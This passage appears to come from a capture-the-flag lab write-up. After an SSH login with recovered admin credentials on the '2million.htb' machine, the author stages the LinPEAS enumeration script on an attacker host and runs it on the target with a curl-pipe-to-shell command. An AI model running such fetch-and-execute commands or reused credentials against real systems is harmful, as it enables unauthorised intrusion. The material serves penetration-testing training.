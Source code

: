 Let's back all the way out, new day coming in. Let's try and ssh into the machine using the admin username/pass and see if we can get in:

```console
toasty@parrot$ ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

...SNIP

You have mail.
Last login: Fri Aug 18 20:27:54 2023 from 10.10.14.95
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ 
```

### Target Linux Enumeration

First thing I will do is run (LINPEAS)\[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS] to enumerate the box and see if we find anything. This could have been done with the previous user as well.

We need to transfer the linpeas script over to our target box so we can do that in three steps.

1. From Host: Get linpeas script off github
2. From Host: Begin http python server in same directory as linpeas script
3. From Target: curl the linpeas script and pipe it directly to shell so it runs in memory and then save output.

We can see this below:

#### HOST

```console
tosaty@parrot$ wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
toasty@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.221 - - [18/Aug/2023 21:37:03] "GET /linpeas.sh HTTP/1.1" 200 -
```

#### TARGET

```console
admin@2million:~$ curl http://10.10.14.231/linpeas.sh | sh > linpeas.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
 37  828k   37  310k    0     0   285k      0  0:00:02  0:00:01  0:00:01  285k. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . .  85  828k   85  710k    0     0   9525      0  0:01:29  0:01:16  0:00:13  9525find: ‘/var/lib/nginx/proxy’: Permission denied
find: ‘/var/lib/nginx/fastcgi’: Permission denied
find: ‘/var/lib/nginx/uwsgi’: Permission denied
find: ‘/var/lib/nginx/body’: Permission denied
admin@2million:~$ ls
linpeas.txt  snap  user.txt
```
